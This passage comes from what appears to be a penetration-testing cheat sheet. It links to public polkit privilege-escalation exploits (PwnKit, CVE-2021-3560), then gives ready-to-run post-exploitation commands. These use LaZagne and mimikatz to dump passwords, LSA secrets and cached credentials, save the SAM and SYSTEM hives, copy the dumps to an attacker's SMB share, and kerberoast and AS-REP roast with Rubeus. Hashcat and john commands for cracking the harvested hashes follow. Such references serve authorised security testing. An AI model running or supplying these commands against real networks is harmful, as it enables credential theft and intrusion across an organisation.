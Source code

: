 [C/sh](https://github.com/ly4k/PwnKit )

### CVE 2021-3560 polkit exploit

[python3](https://github.com/Almorabea/Polkit-exploit)

[sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)  

## 5. Post Exploitation and AD-related Enumeration
There might be some valuable information for pivoting over an organizational network, post exploitation is necessary.
### Creds harvesting
#### Useful tools
[LaZagne.exe](https://github.com/AlessandroZ/LaZagne)

[mimikatz.exe](https://github.com/ParrotSec/mimikatz/tree/master)

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

```powershell
.\LaZagne.exe all -oN
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit" > .\sekurlsa_logonpassword.txt
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "lsadump::secrets" "lsadump::cache" "exit" > lsadump_dump.txt
# Start impacket smbserver before run next
net use X: \\IP\share /user:USER PASS
reg save HKLM\SAM C:\users\public\SAM
reg save HKLM\SYSTEM C:\users\public\SYSTEM
copy .\*.txt X:\hashes\
copy C:\users\public\S*M X:\dump\
# Try ASREP roast and kerberoast inside a domain-joined computer
.\Rubeus.exe asreproast /outfile:hash.txt
.\Rubeus.exe kerberoast /outfile:hash.txt
```

### Cracking harvested hashes
Mscache v2 hashes cracking:

Need to parse hashes into such format:
```
$DCC2$10240#username#hash
```
Then crack with
```bash
#Mscache V2
hashcat -m 2100
#Kerberoast
hashcat -m 13100
#ASREP roast
hashcat -m 18200
#NTLM
hashcat -m 1000
#responder hash
hashcat -m 5600
```
#### Encrypted file hash cracking
Common files like zip, 7z, rar, keepass, sshkey
```
zip2john > zip.hash
7z2john > 7z.hash
rar2john > rar.hash
keepass2john > kee.hash
john *.hash
```
